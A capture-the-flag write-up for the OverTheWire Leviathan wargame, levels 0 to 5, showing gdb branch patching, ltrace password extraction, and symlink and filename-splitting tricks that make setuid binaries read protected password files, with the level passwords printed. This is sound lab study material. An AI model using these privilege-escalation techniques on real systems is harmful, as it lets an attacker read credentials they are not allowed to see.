 # Leviathan

Writeup by Brendan Weibrecht

## 0

	grep password /home/leviathan0/.backup/bookmarks.html

	<DT><A HREF="http://leviathan.labs.overthewire.org/passwordus.html | This will be fixed later, the password for leviathan1 is rioGegei8m" ADD_DATE="1155384634" LAST_CHARSET="ISO-8859-1" ID="rdf:#$2wIU71">password to leviathan1</A>

	rioGegei8m

## 1

We are given a `check` binary that asks for a password. It has a setuid of leviathan2, so while executing it, that will be our effective user. Disassembling and decompiling it doesn't reveal an easy way to see the password. A way around this is to debug the binary and modify the string comparison test result.

	$ gdb check
	(gdb) b main
	(gdb) run
	(gdb) disas

These lines seem interesting:

	0x080485ae <+129>:	call   0x80483b0 <strcmp@plt>
	0x080485b3 <+134>:	test   %eax,%eax
	0x080485b5 <+136>:	jne    0x80485c5 <main+152>

It appears that if we modify `%eax` at `+134`, we can change which part of the program it branches to next, i.e. not perform the jump.

`jne` will perform the jump if the zero flag (ZF) is 0.
`test` performs an AND operation, and if the result is 0, ZF is set to 1; otherwise it's set to 0.

So, if we break at `0x080485b3`, and set `%eax` to 0, the 0 result of `test` will mean that ZF is set, and hence `jne` will not jump.

	(gdb) b *0x080485b3
	(gdb) c
	(gdb) disas
	(gdb) set $eax=0
	(gdb) c

Ta da! We are presented with a shell =)

Goddamn it, this doesn't execute it as leviathan2, so we can't read the passord file at `/etc/leviathan_pass/leviathan2`

---

Looking up the answer >_>

Running:

	$ ltrace ./check

and giving it a password of `asd` shows a string comparison of that with `sex`.

	__libc_start_main(0x804852d, 1, 0xffffd7a4, 0x80485f0 <unfinished ...>
	printf("password: ")                                           = 10
	getchar(0x8048680, 47, 0x804a000, 0x8048642password: asd
	)                   = 97
	getchar(0x8048680, 47, 0x804a000, 0x8048642)                   = 115
	getchar(0x8048680, 47, 0x804a000, 0x8048642)                   = 100
	strcmp("asd", "sex")                                           = -1
	puts("Wrong password, Good Bye ..."Wrong password, Good Bye ...
	)                           = 29
	+++ exited (status 0) +++

Let's try `sex` as the password...

	strcmp("sex", "sex")                                           = 0
	system("/bin/sh"$ 

Lol, it worked.

	leviathan1@melinda:~$ ./check 
	password: sex
	$ whoami
	leviathan2
	$ cat /etc/leviathan_pass/leviathan2

ougahZi8Ta

## 2

Having used IDA, I can't see a way to do it... Looking up the answer >_>

Printing a normal file:

	$ mkdir /tmp/zimbix_lev2; cd /tmp/zimbix_lev2
	$ touch b
	$ ltrace ~/printfile b
	access("b", 4)                                                 = 0
	snprintf("/bin/cat b", 511, "/bin/cat %s", "b")                = 10
	system("/bin/cat b")

Printing the password file:

	$ ltrace ~/printfile /etc/leviathan_pass/leviathan3
	access("/etc/leviathan_pass/leviathan3", 4)                    = -1
	puts("You cant have that file...")

So it has to pass the `access` check first, before it calls `cat`.

The reason it doesn't work is explained in the manual for `access` at http://linux.about.com/library/cmd/blcmdl2_access.htm:

> The check is done with the process's *real* uid and gid, rather than with the effective ids as is done when actually attempting an operation. This is to allow set-UID programs to easily determine the invoking user's authority.

The call to `cat` will treat a space as a separator between files. The `access` call does not, given the full path is passed as a string directly.

If we have files `a`, `b`, and `a b`, cat will use the first two, and `access` the last one. Therefore, if we make each file it will work fine. We can use a symbollic link for a file that will be read by `cat`.

	$ touch 'a b'
	$ ln -s /etc/leviathan_pass/leviathan3 a
	$ ~/printfile 'a b'

Ahdiemoo1j

## 3

Wow, this is very similar to level 2.

	$ ltrace ./level3 
	__libc_start_main(0x80485fe, 1, 0xffffd7a4, 0x80486d0 <unfinished ...>
	strcmp("h0no33", "kakaka")                                     = -1
	printf("Enter the password> ")                                 = 20
	fgets(Enter the password> sdf
	"sdf\n", 256, 0xf7fcac20)                                = 0xffffd59c
	strcmp("sdf\n", "snlprintf\n")                                 = -1
	puts("bzzzzzzzzap. WRONG"bzzzzzzzzap. WRONG
	)                                     = 19
	+++ exited (status 0) +++

`strcmp("sdf\n", "snlprintf\n")` Indicates the password is `snlprintf`. Lol, it works.

vuH0coox6m

## 4

`.trash/bin` appears to output the password in binary:

	01010100 01101001 01110100 01101000 00110100 01100011 01101111 01101011 01100101 01101001 00001010

Checking ltrace:

	$ ltrace .trash/bin
	__libc_start_main(0x80484cd, 1, 0xffffd7a4, 0x80485c0 <unfinished ...>
	fopen("/etc/leviathan_pass/leviathan5", "r")                   = 0
	+++ exited (status 255) +++

Using a binary to ASCII converter:

Tith4cokei

## 5

Default output:

	Cannot find /tmp/file.log

Touching the file prevents the error, but deletes the file after running.

	ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log

UgaoFee4li

## 6

